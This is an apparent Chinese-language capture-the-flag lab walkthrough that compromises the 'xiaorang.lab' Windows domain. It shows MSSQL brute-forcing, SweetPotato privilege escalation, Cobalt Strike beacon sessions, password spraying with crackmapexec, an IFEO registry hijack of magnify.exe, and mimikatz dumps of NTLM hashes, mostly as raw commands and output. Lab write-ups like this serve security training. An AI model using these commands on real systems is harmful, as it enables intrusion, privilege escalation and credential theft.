

# 入口打点 mssql爆破+土豆提权
fscan扫一波
```powershell
D:\PenTesting>.\fscan.exe -h 39.99.248.209
[2025-06-20 13:34:30] [INFO] 暴力破解线程数: 1
[2025-06-20 13:34:30] [INFO] 开始信息扫描
[2025-06-20 13:34:30] [INFO] 最终有效主机数量: 1
[2025-06-20 13:34:30] [INFO] 开始主机扫描
[2025-06-20 13:34:30] [INFO] 有效端口数量: 233
[2025-06-20 13:34:30] [SUCCESS] 端口开放 39.99.248.209:135
[2025-06-20 13:34:30] [SUCCESS] 端口开放 39.99.248.209:1433
[2025-06-20 13:34:30] [SUCCESS] 端口开放 39.99.248.209:80
[2025-06-20 13:34:36] [SUCCESS] 服务识别 39.99.248.209:1433 => [ms-sql-s] 版本:13.00.1601 产品:Microsoft SQL Server 2016 系统:Windows Banner:[.%.A.]
[2025-06-20 13:34:36] [SUCCESS] 服务识别 39.99.248.209:80 => [http]
[2025-06-20 13:35:36] [SUCCESS] 服务识别 39.99.248.209:135 =>
[2025-06-20 13:35:36] [INFO] 存活端口数量: 3
[2025-06-20 13:35:36] [INFO] 开始漏洞扫描
[2025-06-20 13:35:36] [INFO] 加载的插件: findnet, mssql, webpoc, webtitle
[2025-06-20 13:35:36] [SUCCESS] 网站标题 http://39.99.248.209      状态码:200 长度:703    标题:IIS Windows Server
[2025-06-20 13:35:36] [SUCCESS] NetInfo 扫描结果
目标主机: 39.99.248.209
主机名: WIN-WEB
发现的网络接口:
   IPv4地址:
      └─ 172.22.8.18
   IPv6地址:
      └─ 2001:0:348b:fb58:2c81:1581:d89c:72e
[2025-06-20 13:35:42] [SUCCESS] MSSQL 39.99.248.209:1433 sa 1qaz!QAZ
[2025-06-20 13:35:43] [SUCCESS] 扫描已完成: 4/4
```
mssql凭证为sa 1qaz!QAZ，使用MDUT连接


可以看到SeImpersonatePrivilege启用，使用sweetpotato提权


然后上线cs

```shell
[06/20 14:00:27] [+] received password hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2caf35bb4c5059a3d50599844e2b9b1f:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
John:1008:aad3b435b51404eeaad3b435b51404ee:eec9381b043f098b011be51622282027:::
```
抓取hash
```shell
Windows IP 配置


以太网适配器 以太网:

   连接特定的 DNS 后缀 . . . . . . . : 
   本地链接 IPv6 地址. . . . . . . . : fe80::71dd:658b:c56b:fdda%14
   IPv4 地址 . . . . . . . . . . . . : 172.22.8.18
   子网掩码  . . . . . . . . . . . . : 255.255.0.0
   默认网关. . . . . . . . . . . . . : 172.22.255.253

隧道适配器 isatap.{E309DFD0-37D7-4E89-A23A-3C61210B34EA}:

   媒体状态  . . . . . . . . . . . . : 媒体已断开连接
   连接特定的 DNS 后缀 . . . . . . . : 

隧道适配器 Teredo Tunneling Pseudo-Interface:

   连接特定的 DNS 后缀 . . . . . . . : 
   IPv6 地址 . . . . . . . . . . . . : 2001:0:348b:fb58:2c81:1581:d89c:72e
   本地链接 IPv6 地址. . . . . . . . : fe80::2c81:1581:d89c:72e%12
   默认网关. . . . . . . . . . . . . : ::
```
单网卡机器
```shell
Getting flag01 is easy, right?

flag01: flag{4d0ed780-14a7-476e-a144-a74483a629ca}


Maybe you should focus on user sessions...

```
提示查看user sessions
```
[06/20 14:06:46] beacon> shell quser
[06/20 14:06:46] [*] Tasked beacon to run: quser
[06/20 14:06:46] [+] host called home, sent: 36 bytes
[06/20 14:06:46] [+] received output:
 用户名                会话名             ID  状态    空闲时间   登录时间
 john                  rdp-tcp#0           2  运行中         35  2025/6/20 13:31

```

注入进程以john用户上线
```
[06/20 14:10:43] beacon> shell net use
[06/20 14:10:43] [*] Tasked beacon to run: net use
[06/20 14:10:53] beacon> sleep 2
[06/20 14:10:53] [*] Tasked beacon to sleep for 2s
[06/20 14:10:57] [+] host called home, sent: 54 bytes
[06/20 14:10:57] [+] received output:
会记录新的网络连接。


状态       本地        远程                      网络

-------------------------------------------------------------------------------
                       \\TSCLIENT\C              Microsoft Terminal Services

```
发现有一个tsclient服务，查看下有什么文件
```shell
[06/20 14:12:00] beacon> shell dir \\TSCLIENT\C
[06/20 14:12:00] [*] Tasked beacon to run: dir \\TSCLIENT\C
[06/20 14:12:01] [+] host called home, sent: 47 bytes
[06/20 14:12:04] [+] received output:
 驱动器 \\TSCLIENT\C 中的卷没有标签。
 卷的序列号是 C2C5-9D0C

 \\TSCLIENT\C 的目录

2022/07/12  10:34                71 credential.txt
2022/05/12  17:04    <DIR>          PerfLogs
2022/07/11  12:53    <DIR>          Program Files
2022/05/18  11:30    <DIR>          Program Files (x86)
2022/07/11  12:47    <DIR>          Users
2022/07/11  12:45    <DIR>          Windows
               1 个文件             71 字节
               5 个目录 30,039,441,408 可用字节


[06/20 14:12:35] beacon> shell type \\TSCLIENT\C\credential.txt
[06/20 14:12:35] [*] Tasked beacon to run: type \\TSCLIENT\C\credential.txt
[06/20 14:12:38] [+] host called home, sent: 63 bytes
[06/20 14:12:39] [+] received output:
xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#

Do you know how to hijack Image?
```
发现了一组凭证，提示镜像劫持提权。
# 横向
传fscan扫一下内网
```powershell
[06/20 14:28:44] beacon> shell "fscan.exe -h 172.22.8.0/24"
[06/20 14:28:44] [*] Tasked beacon to run: "fscan.exe -h 172.22.8.0/24"
[06/20 14:28:44] [+] host called home, sent: 59 bytes
[06/20 14:28:54] [+] received output:
鈹屸攢鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹�
鈹�    ___                              _        鈹�
鈹�   / _ \     ___  ___ _ __ __ _  ___| | __    鈹�
鈹�  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    鈹�
鈹� / /_\\_____\__ \ (__| | | (_| | (__|   <     鈹�
鈹� \____/     |___/\___|_|  \__,_|\___|_|\_\    鈹�
鈹斺攢鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹€鈹�
      Fscan Version: 2.0.0

[2025-06-20 14:28:46] [INFO] 鏆村姏鐮磋В绾跨▼鏁�: 1
[2025-06-20 14:28:46] [INFO] 寮€濮嬩俊鎭壂鎻�
[2025-06-20 14:28:46] [INFO] CIDR鑼冨洿: 172.22.8.0-172.22.8.255
[2025-06-20 14:28:47] [INFO] 鐢熸垚IP鑼冨洿: 172.22.8.0.%!d(string=172.22.8.255) - %!s(MISSING).%!d(MISSING)
[2025-06-20 14:28:47] [INFO] 瑙ｆ瀽CIDR 172.22.8.0/24 -> IP鑼冨洿 172.22.8.0-172.22.8.255
[2025-06-20 14:28:47] [INFO] 鏈€缁堟湁鏁堜富鏈烘暟閲�: 256
[2025-06-20 14:28:47] [INFO] 寮€濮嬩富鏈烘壂鎻�
[2025-06-20 14:28:47] [SUCCESS] 鐩爣 172.22.8.18     瀛樻椿 (ICMP)
[2025-06-20 14:28:50] [SUCCESS] 鐩爣 172.22.8.15     瀛樻椿 (ICMP)
[2025-06-20 14:28:50] [SUCCESS] 鐩爣 172.22.8.31     瀛樻椿 (ICMP)
[2025-06-20 14:28:50] [SUCCESS] 鐩爣 172.22.8.46     瀛樻椿 (ICMP)
[2025-06-20 14:28:50] [INFO] 瀛樻椿涓绘満鏁伴噺: 4
[2025-06-20 14:28:50] [INFO] 鏈夋晥绔彛鏁伴噺: 233
[2025-06-20 14:28:50] [SUCCESS] 绔彛寮€鏀� 172.22.8.15:88
[2025-06-20 14:28:50] [SUCCESS] 绔彛寮€鏀� 172.22.8.46:80
[2025-06-20 14:28:50] [SUCCESS] 绔彛寮€鏀� 172.22.8.18:80
[2025-06-20 14:28:51] [SUCCESS] 绔彛寮€鏀� 172.22.8.15:389
[2025-06-20 14:28:51] [SUCCESS] 绔彛寮€鏀� 172.22.8.46:139
[2025-06-20 14:28:51] [SUCCESS] 绔彛寮€鏀� 172.22.8.31:139
[2025-06-20 14:28:51] [SUCCESS] 绔彛寮€鏀� 172.22.8.15:139
[2025-06-20 14:28:51] [SUCCESS] 绔彛寮€鏀� 172.22.8.46:135
[2025-06-20 14:28:51] [SUCCESS] 绔彛寮€鏀� 172.22.8.31:135
[2025-06-20 14:28:51] [SUCCESS] 绔彛寮€鏀� 172.22.8.15:135
[2025-06-20 14:28:51] [SUCCESS] 绔彛寮€鏀� 172.22.8.18:139
[2025-06-20 14:28:51] [SUCCESS] 绔彛寮€鏀� 172.22.8.18:135
[2025-06-20 14:28:51] [SUCCESS] 绔彛寮€鏀� 172.22.8.18:445
[2025-06-20 14:28:51] [SUCCESS] 绔彛寮€鏀� 172.22.8.15:445
[2025-06-20 14:28:51] [SUCCESS] 绔彛寮€鏀� 172.22.8.31:445
[2025-06-20 14:28:51] [SUCCESS] 绔彛寮€鏀� 172.22.8.46:445
[2025-06-20 14:28:53] [SUCCESS] 绔彛寮€鏀� 172.22.8.18:1433

[06/20 14:28:55] [+] received output:
[2025-06-20 14:28:55] [SUCCESS] 鏈嶅姟璇嗗埆 172.22.8.15:88 => 
[2025-06-20 14:28:55] [SUCCESS] 鏈嶅姟璇嗗埆 172.22.8.18:80 => [http]

[06/20 14:28:55] [+] received output:
[2025-06-20 14:28:55] [SUCCESS] 鏈嶅姟璇嗗埆 172.22.8.46:80 => [http]

[06/20 14:28:56] [+] received output:
[2025-06-20 14:28:56] [SUCCESS] 鏈嶅姟璇嗗埆 172.22.8.46:139 =>  Banner:[.]
[2025-06-20 14:28:56] [SUCCESS] 鏈嶅姟璇嗗埆 172.22.8.31:139 =>  Banner:[.]

[06/20 14:28:56] [+] received output:
[2025-06-20 14:28:56] [SUCCESS] 鏈嶅姟璇嗗埆 172.22.8.15:139 =>  Banner:[.]

[06/20 14:28:57] [+] received output:
[2025-06-20 14:28:56] [SUCCESS] 鏈嶅姟璇嗗埆 172.22.8.18:139 =>  Banner:[.]
[2025-06-20 14:28:57] [SUCCESS] 鏈嶅姟璇嗗埆 172.22.8.18:445 => 
[2025-06-20 14:28:57] [SUCCESS] 鏈嶅姟璇嗗埆 172.22.8.15:445 => 

[06/20 14:28:57] [+] received output:
[2025-06-20 14:28:57] [SUCCESS] 鏈嶅姟璇嗗埆 172.22.8.31:445 => 
[2025-06-20 14:28:57] [SUCCESS] 鏈嶅姟璇嗗埆 172.22.8.46:445 => 

[06/20 14:28:58] [+] received output:
[2025-06-20 14:28:58] [SUCCESS] 鏈嶅姟璇嗗埆 172.22.8.18:1433 => [ms-sql-s] 鐗堟湰:13.00.1601 浜у搧:Microsoft SQL Server 2016 绯荤粺:Windows Banner:[.%.A.]

[06/20 14:29:01] [+] received output:
[2025-06-20 14:29:01] [SUCCESS] 鏈嶅姟璇嗗埆 172.22.8.15:389 => 

[06/20 14:29:56] [+] received output:
[2025-06-20 14:29:56] [SUCCESS] 鏈嶅姟璇嗗埆 172.22.8.46:135 => 

[06/20 14:29:57] [+] received output:
[2025-06-20 14:29:56] [SUCCESS] 鏈嶅姟璇嗗埆 172.22.8.31:135 => 
[2025-06-20 14:29:56] [SUCCESS] 鏈嶅姟璇嗗埆 172.22.8.15:135 => 
[2025-06-20 14:29:57] [SUCCESS] 鏈嶅姟璇嗗埆 172.22.8.18:135 => 

[06/20 14:29:57] [+] received output:
[2025-06-20 14:29:57] [INFO] 瀛樻椿绔彛鏁伴噺: 17
[2025-06-20 14:29:57] [INFO] 寮€濮嬫紡娲炴壂鎻�
[2025-06-20 14:29:57] [INFO] 鍔犺浇鐨勬彃浠�: findnet, ldap, ms17010, mssql, netbios, smb, smb2, smbghost, webpoc, webtitle
[2025-06-20 14:29:57] [SUCCESS] NetInfo 鎵弿缁撴灉
鐩爣涓绘満: 172.22.8.18
涓绘満鍚�: WIN-WEB
鍙戠幇鐨勭綉缁滄帴鍙�:
   IPv4鍦板潃:
      鈹斺攢 172.22.8.18

[06/20 14:29:57] [+] received output:
[2025-06-20 14:29:57] [SUCCESS] NetInfo 鎵弿缁撴灉
鐩爣涓绘満: 172.22.8.31
涓绘満鍚�: WIN19-CLIENT
鍙戠幇鐨勭綉缁滄帴鍙�:
   IPv4鍦板潃:
      鈹斺攢 172.22.8.31
[2025-06-20 14:29:57] [SUCCESS] NetInfo 鎵弿缁撴灉
鐩爣涓绘満: 172.22.8.46
涓绘満鍚�: WIN2016
鍙戠幇鐨勭綉缁滄帴鍙�:
   IPv4鍦板潃:
      鈹斺攢 172.22.8.46
[2025-06-20 14:29:57] [SUCCESS] NetInfo 鎵弿缁撴灉
鐩爣涓绘満: 172.22.8.15
涓绘満鍚�: DC01
鍙戠幇鐨勭綉缁滄帴鍙�:
   IPv4鍦板潃:
      鈹斺攢 172.22.8.15
[2025-06-20 14:29:57] [SUCCESS] 缃戠珯鏍囬 http://172.22.8.46        鐘舵€佺爜:200 闀垮害:703    鏍囬:IIS Windows Server
[2025-06-20 14:29:57] [SUCCESS] NetBios 172.22.8.15     DC:XIAORANG\DC01           
[2025-06-20 14:29:57] [SUCCESS] NetBios 172.22.8.31     XIAORANG\WIN19-CLIENT         
[2025-06-20 14:29:57] [SUCCESS] NetBios 172.22.8.46     WIN2016.xiaorang.lab                Windows Server 2016 Datacenter 14393
[2025-06-20 14:29:57] [SUCCESS] 缃戠珯鏍囬 http://172.22.8.18        鐘舵€佺爜:200 闀垮害:703    鏍囬:IIS Windows Server

[06/20 14:29:58] [+] received output:
[2025-06-20 14:29:58] [SUCCESS] MSSQL 172.22.8.18:1433 sa 1qaz!QAZ

[06/20 14:30:20] [+] received output:
[2025-06-20 14:30:20] [SUCCESS] 鎵弿宸插畬鎴�: 32/32
```
172.22.8.15     DC:XIAORANG\DC01           
172.22.8.31     XIAORANG\WIN19-CLIENT         
172.22.8.46     WIN2016.xiaorang.lab                Windows Server 2016 Datacenter 14393
## 172.22.8.46
### 密码喷洒
使用之前得到的凭证进行密码喷洒
`proxychains4 crackmapexec smb 172.22.8.1/24 -u Aldrich -p 'Ald@rLMWuy7Z!#' -d xiaorang.lab 2>/dev/null`
//-d可以指定域登录
```bash
┌──(㉿kali)-[~/桌面/chainreactor]
└─$ proxychains4 crackmapexec smb 172.22.8.1/24 -u Aldrich -p 'Ald@rLMWuy7Z!#' -d xiaorang.lab 2>/dev/null
SMB         172.22.8.18     445    WIN-WEB          [*] Windows Server 2016 Datacenter 14393 x64 (name:WIN-WEB) (domain:xiaorang.lab) (signing:False) (SMBv1:True)
SMB         172.22.8.46     445    WIN2016          [*] Windows Server 2016 Datacenter 14393 x64 (name:WIN2016) (domain:xiaorang.lab) (signing:False) (SMBv1:True)
SMB         172.22.8.15     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:xiaorang.lab) (signing:True) (SMBv1:False)
SMB         172.22.8.31     445    WIN19-CLIENT     [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN19-CLIENT) (domain:xiaorang.lab) (signing:False) (SMBv1:False)
SMB         172.22.8.46     445    WIN2016          [-] xiaorang.lab\Aldrich:Ald@rLMWuy7Z!# STATUS_PASSWORD_EXPIRED 
```
### 修改密码
提示密码过期，使用impacket修改密码。
```bash
┌──(㉿kali)-[~/桌面/chainreactor]
└─$ proxychains4 -q impacket-changepasswd xiaorang.lab/Aldrich:'Ald@rLMWuy7Z!#'@172.22.8.15 -newpass 'Tommy4444'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of xiaorang.lab\Aldrich
[*] Connecting to DCE/RPC as xiaorang.lab\Aldrich
[!] Password is expired or must be changed, trying to bind with a null session.
[*] Connecting to DCE/RPC as null session
[*] Password was changed successfully.
```
这里有个小坑就是修改过后的密码要有一定强度。
```bash
proxychains4 -q rdesktop -u Aldrich -p Tommy4444 -d xiaorang.lab 172.22.8.46
```

远程连接
### IFEO劫持
根据之前的提示进行IFEO劫持。
```powershell
get-acl -path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" | fl *
```

使用这条命令可以看到登录用户都有修改注册表的权限
```text
NT AUTHORITY\Authenticated Users Allow  SetValue, CreateSubKey, ReadKey

# 表示所有经过身份验证的用户（即登录到系统的用户）被允许对该注册表项执行以下操作：设置值（SetValue）、创建子项（CreateSubKey）和读取键（ReadKey）。
```
修改注册表进行映像劫持，使用放大镜进行提权
`REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"`

成功提权

flag{f1cd2961-137e-4178-82bd-5bff57de12fc}
### 转发上线
由于这台机器不出网通过cs转发上线，监听器设置为172.22.8.46，然后使用cs的logonpasswords来导出hash
```powershell
[06/20 16:46:53] beacon> shell net group "domain admins" /domain
[06/20 16:46:53] [*] Tasked beacon to run: net group "domain admins" /domain
[06/20 16:46:53] [+] host called home, sent: 64 bytes
[06/20 16:46:54] [+] received output:
这项请求将在域 xiaorang.lab 的域控制器处理。

组名     Domain Admins
注释     指定的域管理员

成员

-------------------------------------------------------------------------------
Administrator            WIN2016$                 
命令成功完成。
```
发现这台机器账户在域管理员组内。
```powershell
[06/20 16:52:39] beacon> logonpasswords
[06/20 16:52:39] [*] Tasked beacon to run mimikatz's sekurlsa::logonpasswords command
[06/20 16:52:41] [+] host called home, sent: 297594 bytes
[06/20 16:52:43] [+] received output:

Authentication Id : 0 ; 14885215 (00000000:00e3215f)
Session           : Service from 0
User Name         : DefaultAppPool
Domain            : IIS APPPOOL
Logon Server      : (null)
Logon Time        : 2025/6/20 14:28:55
SID               : S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
	msv :	
	 [00000003] Primary
	 * Username : WIN2016$
	 * Domain   : XIAORANG
	 * NTLM     : c82c0065db975598c29e5d285e006327
	 * SHA1     : 343075a1efeb46462e7a460fde3c22d778e937d3
	tspkg :	
	wdigest :	
	 * Username : WIN2016$
	 * Domain   : XIAORANG
	 * Password : (null)
	kerberos :	
	 * Username : WIN2016$
	 * Domain   : xiaorang.lab
	 * Password : 71 64 fb aa 11 1b 18 4f 24 5b 45 0e 20 ff 54 bc 3d d9 2b 2c 9a 4e ae 37 08 2b da 36 dd 14 2c dd 19 92 d9 65 3e 5d 1b a9 d4 fd 62 1e 9e 1c f6 ea 05 8b 52 30 5c a9 be 21 53 5b f6 4b 1b 8b c1 c1 3a 38 58 ab 44 37 ea a8 f0 11 56 70 b6 82 ae a8 3b ca 24 3a 33 e8 dd 08 84 82 91 e9 f7 da ab 15 b2 ed a4 ee f9 27 20 02 14 9a 04 8a 21 d0 29 13 19 8b 24 a4 a2 9d 83 4e 85 3f 61 47 4b d9 a4 51 eb 33 88 28 35 eb 12 ee 75 6f 81 a2 de de c2 37 c4 6d 07 27 a0 2a 1e bd 67 b0 bc 0d a3 73 83 d9 21 5d 1f 3c 9d c2 77 b6 15 f8 f3 ea 1e d7 3e 58 2d 9b a2 63 2c 1d d2 6f e2 96 08 b7 5c f5 fe 64 45 51 40 2f e6 f9 ef 67 6d 89 64 23 60 60 03 86 0a 0e 54 64 68 f5 f4 14 54 38 b3 ae dd 04 db e3 a6 ab 3f 74 12 b7 af f6 e1 cc 99 51 c4 9b 08 d0 
	ssp :	
	credman :	

Authentication Id : 0 ; 55453 (00000000:0000d89d)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/6/20 13:29:07
SID               : S-1-5-90-0-1
	msv :	
	 [00000003] Primary
	 * Username : WIN2016$
	 * Domain   : XIAORANG
	 * NTLM     : 4ba974f170ab0fe1a8a1eb0ed8f6fe1a
	 * SHA1     : e06238ecefc14d675f762b08a456770dc000f763
	tspkg :	
	wdigest :	
	 * Username : WIN2016$
	 * Domain   : XIAORANG
	 * Password : (null)
	kerberos :	
	 * Username : WIN2016$
	 * Domain   : xiaorang.lab
	 * Password : 9e ae c4 7a ed ee 91 74 a5 59 61 a5 00 2c c5 00 60 3b 87 48 d0 17 48 cf df 7b 14 af 9a 99 22 b5 94 ba 0a 1e f0 6e f0 25 b1 e2 a2 62 fb b8 68 93 42 64 08 b7 f6 2e f7 cf ae a3 7a 94 9d 32 24 1a b1 6b 87 6c 5e f1 d3 89 c6 c4 8b d3 bd 05 9c b0 e1 85 d4 2c 03 56 5f af 09 15 12 10 df 74 e7 4c d3 65 55 d8 ab bd b4 71 5c 8c a7 bd 14 60 8b 44 b5 d8 d8 61 23 f1 4f 4d 8e a0 dc ac 8a 60 15 0d f7 9f a1 85 98 c4 cf 34 ec ee ea c5 b9 5b 42 8b 97 cc 4d ed 1f db 8c b4 45 06 ce 40 fc 81 96 ac c3 61 e5 e9 42 90 69 f3 b2 85 fa 80 59 e2 8b a5 f6 70 5d 1a bd 5f b1 85 6b ae b0 16 42 29 2c 99 57 fb 49 ea e3 29 49 56 55 6c 9a 2b ee 13 77 fe d7 a3 51 b8 01 ec bb 60 22 b8 7c 2f f5 6b 0f 6b 87 36 76 45 81 7e e3 71 0a a8 ca 2a a3 a6 05 64 
	ssp :	
	credman :	

Authentication Id : 0 ; 55433 (00000000:0000d889)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/6/20 13:29:07
SID               : S-1-5-90-0-1
	msv :	
	 [00000003] Primary
	 * Username : WIN2016$
	 * Domain   : XIAORANG
	 * NTLM     : c82c0065db975598c29e5d285e006327
	 * SHA1     : 343075a1efeb46462e7a460fde3c22d778e937d3
	tspkg :	
	wdigest :	
	 * Username : WIN2016$
	 * Domain   : XIAORANG
	 * Password : (null)
	kerberos :	
	 * Username : WIN2016$
	 * Domain   : xiaorang.lab
	 * Password : 71 64 fb aa 11 1b 18 4f 24 5b 45 0e 20 ff 54 bc 3d d9 2b 2c 9a 4e ae 37 08 2b da 36 dd 14 2c dd 19 92 d9 65 3e 5d 1b a9 d4 fd 62 1e 9e 1c f6 ea 05 8b 52 30 5c a9 be 21 53 5b f6 4b 1b 8b c1 c1 3a 38 58 ab 44 37 ea a8 f0 11 56 70 b6 82 ae a8 3b ca 24 3a 33 e8 dd 08 84 82 91 e9 f7 da ab 15 b2 ed a4 ee f9 27 20 02 14 9a 04 8a 21 d0 29 13 19 8b 24 a4 a2 9d 83 4e 85 3f 61 47 4b d9 a4 51 eb 33 88 28 35 eb 12 ee 75 6f 81 a2 de de c2 37 c4 6d 07 27 a0 2a 1e bd 67 b0 bc 0d a3 73 83 d9 21 5d 1f 3c 9d c2 77 b6 15 f8 f3 ea 1e d7 3e 58 2d 9b a2 63 2c 1d d2 6f e2 96 08 b7 5c f5 fe 64 45 51 40 2f e6 f9 ef 67 6d 89 64 23 60 60 03 86 0a 0e 54 64 68 f5 f4 14 54 38 b3 ae dd 04 db e3 a6 ab 3f 74 12 b7 af f6 e1 cc 99 51 c4 9b 08 d0 
	ssp :	
	credman :	

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WIN2016$
Domain            : XIAORANG
Logon Server      : (null)
Logon Time        : 2025/6/20 13:29:07
SID               : S-1-5-20
	msv :	
	 [00000003] Primary
	 * Username : WIN2016$
	 * Domain   : XIAORANG
	 * NTLM     : c82c0065db975598c29e5d285e006327
	 * SHA1     : 343075a1efeb46462e7a460fde3c22d778e937d3
	tspkg :	
	wdigest :	
	 * Username : WIN2016$
	 * Domain   : XIAORANG
	 * Password : (null)
	kerberos :	
	 * Username : win2016$
	 * Domain   : XIAORANG.LAB
	 * Password : 71 64 fb aa 11 1b 18 4f 24 5b 45 0e 20 ff 54 bc 3d d9 2b 2c 9a 4e ae 37 08 2b da 36 dd 14 2c dd 19 92 d9 65 3e 5d 1b a9 d4 fd 62 1e 9e 1c f6 ea 05 8b 52 30 5c a9 be 21 53 5b f6 4b 1b 8b c1 c1 3a 38 58 ab 44 37 ea a8 f0 11 56 70 b6 82 ae a8 3b ca 24 3a 33 e8 dd 08 84 82 91 e9 f7 da ab 15 b2 ed a4 ee f9 27 20 02 14 9a 04 8a 21 d0 29 13 19 8b 24 a4 a2 9d 83 4e 85 3f 61 47 4b d9 a4 51 eb 33 88 28 35 eb 12 ee 75 6f 81 a2 de de c2 37 c4 6d 07 27 a0 2a 1e bd 67 b0 bc 0d a3 73 83 d9 21 5d 1f 3c 9d c2 77 b6 15 f8 f3 ea 1e d7 3e 58 2d 9b a2 63 2c 1d d2 6f e2 96 08 b7 5c f5 fe 64 45 51 40 2f e6 f9 ef 67 6d 89 64 23 60 60 03 86 0a 0e 54 64 68 f5 f4 14 54 38 b3 ae dd 04 db e3 a6 ab 3f 74 12 b7 af f6 e1 cc 99 51 c4 9b 08 d0 
	ssp :	
	credman :	

Authentication Id : 0 ; 25464 (00000000:00006378)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2025/6/20 13:29:06
SID               : 
	msv :	
	 [00000003] Primary
	 * Username : WIN2016$
	 * Domain   : XIAORANG
	 * NTLM     : c82c0065db975598c29e5d285e006327
	 * SHA1     : 343075a1efeb46462e7a460fde3c22d778e937d3
	tspkg :	
	wdigest :	
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 18819343 (00000000:011f290f)
Session           : RemoteInteractive from 2
User Name         : Aldrich
Domain            : XIAORANG
Logon Server      : DC01
Logon Time        : 2025/6/20 15:14:32
SID               : S-1-5-21-3289074908-3315245560-3429321632-1105
	msv :	
	 [00000003] Primary
	 * Username : Aldrich
	 * Domain   : XIAORANG
	 * NTLM     : 47302961e921bdbf16c3b6013a1b49f4
	 * SHA1     : 1c08aca121745b107f794e69981463c112d8fa8e
	 * DPAPI    : dbbd1a00e628b4076e3092ffda0c1e3e
	tspkg :	
	wdigest :	
	 * Username : Aldrich
	 * Domain   : XIAORANG
	 * Password : (null)
	kerberos :	
	 * Username : Aldrich
	 * Domain   : XIAORANG.LAB
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 18795671 (00000000:011ecc97)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/6/20 15:14:31
SID               : S-1-5-90-0-2
	msv :	
	 [00000003] Primary
	 * Username : WIN2016$
	 * Domain   : XIAORANG
	 * NTLM     : c82c0065db975598c29e5d285e006327
	 * SHA1     : 343075a1efeb46462e7a460fde3c22d778e937d3
	tspkg :	
	wdigest :	
	 * Username : WIN2016$
	 * Domain   : XIAORANG
	 * Password : (null)
	kerberos :	
	 * Username : WIN2016$
	 * Domain   : xiaorang.lab
	 * Password : 71 64 fb aa 11 1b 18 4f 24 5b 45 0e 20 ff 54 bc 3d d9 2b 2c 9a 4e ae 37 08 2b da 36 dd 14 2c dd 19 92 d9 65 3e 5d 1b a9 d4 fd 62 1e 9e 1c f6 ea 05 8b 52 30 5c a9 be 21 53 5b f6 4b 1b 8b c1 c1 3a 38 58 ab 44 37 ea a8 f0 11 56 70 b6 82 ae a8 3b ca 24 3a 33 e8 dd 08 84 82 91 e9 f7 da ab 15 b2 ed a4 ee f9 27 20 02 14 9a 04 8a 21 d0 29 13 19 8b 24 a4 a2 9d 83 4e 85 3f 61 47 4b d9 a4 51 eb 33 88 28 35 eb 12 ee 75 6f 81 a2 de de c2 37 c4 6d 07 27 a0 2a 1e bd 67 b0 bc 0d a3 73 83 d9 21 5d 1f 3c 9d c2 77 b6 15 f8 f3 ea 1e d7 3e 58 2d 9b a2 63 2c 1d d2 6f e2 96 08 b7 5c f5 fe 64 45 51 40 2f e6 f9 ef 67 6d 89 64 23 60 60 03 86 0a 0e 54 64 68 f5 f4 14 54 38 b3 ae dd 04 db e3 